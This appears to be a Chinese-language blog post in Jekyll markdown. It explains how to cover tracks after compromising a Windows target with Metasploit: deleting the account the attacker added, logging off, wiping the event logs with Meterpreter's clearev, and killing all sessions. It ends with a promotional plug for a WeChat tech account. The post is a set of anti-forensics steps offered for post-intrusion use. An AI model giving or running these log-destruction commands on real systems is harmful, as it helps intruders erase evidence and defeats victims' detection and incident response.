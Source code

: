 ```yaml
---
layout: post
category: curleyg-code-hack
title: MSF-Meterpreter清理日志
tagline: by CurleyG
tag: [hack,curleyg-code-hack]
excerpt: MSF-Meterpreter清理日志
lock: need
---
```


# MSF-Meterpreter清理日志

在我们用MSF成功对目标进行了渗透之后，不要忘记要清理渗透过程中留下的日志，下面就如何清理日志和大家分享下。

步骤如下：

- 删除之前添加的账号
- 删除所有在渗透过程中使用的工具
- 删除应用程序、系统和安全日志
- 关闭所有的Meterpreter连接

## 删除之前添加的账号

```
C:\Windows\system32> net user 添加的用户名 /del
```

## 退出目标服务器的shell

```
C:\Windows\system32> exit
或者
C:\Windows\system32> logoff
```

## 删除日志

```
meterpreter > clearev
```

## 退出meterpreter shell

```
meterpreter > exit
```

## 查看所有的MSF连接

```
msf exploit(multi/handler) > sessions
```

## 关闭所有的MSF链接

```
msf exploit(multi/handler) > sessions -K
```


## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
